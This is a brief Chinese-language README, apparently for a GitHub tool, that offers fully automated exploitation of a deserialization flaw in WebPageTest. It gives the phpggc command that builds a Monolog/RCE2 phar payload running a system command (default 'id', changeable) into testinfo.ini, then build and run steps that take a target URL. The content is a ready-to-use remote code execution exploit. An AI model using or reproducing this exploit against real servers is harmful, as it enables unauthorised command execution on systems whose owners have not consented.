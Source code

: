 # webpagetest_phar
对webpagetest的反序列化漏洞的全自动利用，注意默认命令为id，如需修改执行命令，请自行进入phpggc文件下修改testinfo.ini,执行命令如下：
`./phpggc Monolog/RCE2 system 'id' -p phar -o testinfo.ini`
## 编译
go build -o main.exe main.go
## 使用方式
main.exe -u "url"
